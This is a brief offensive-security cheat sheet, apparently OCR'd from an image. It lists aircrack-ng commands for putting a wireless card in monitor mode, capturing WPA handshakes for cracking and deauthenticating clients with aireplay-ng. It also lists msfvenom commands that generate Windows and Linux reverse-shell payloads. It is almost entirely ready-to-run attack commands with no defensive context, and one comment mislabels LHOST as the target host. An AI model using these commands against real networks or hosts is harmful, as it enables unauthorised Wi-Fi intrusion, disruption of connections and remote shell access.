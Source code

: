 

## WIFI with aireplay
airmon-ng start $iface # monitor mode
airodump-ng $mon
(airodump-ng --bssid xx:xx:xx:xx:xx:xx -c 1-13 [--write WPA_crack_file] <iface>)
aireplay-ng --deauth 100 -a $some_MAC -c $other_MAC $mon"

## Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt
## Linux reverse shell
msfvenom -p linux/x64/shell_reverse_tcp \ # Specify the payload
            LHOST=127.0.0.1             \ # Target host to connect
            LPORT=4444                  \ # Target port
         -b '\x00'                      \ # Bad characters
         -f python                        # Format of the payload

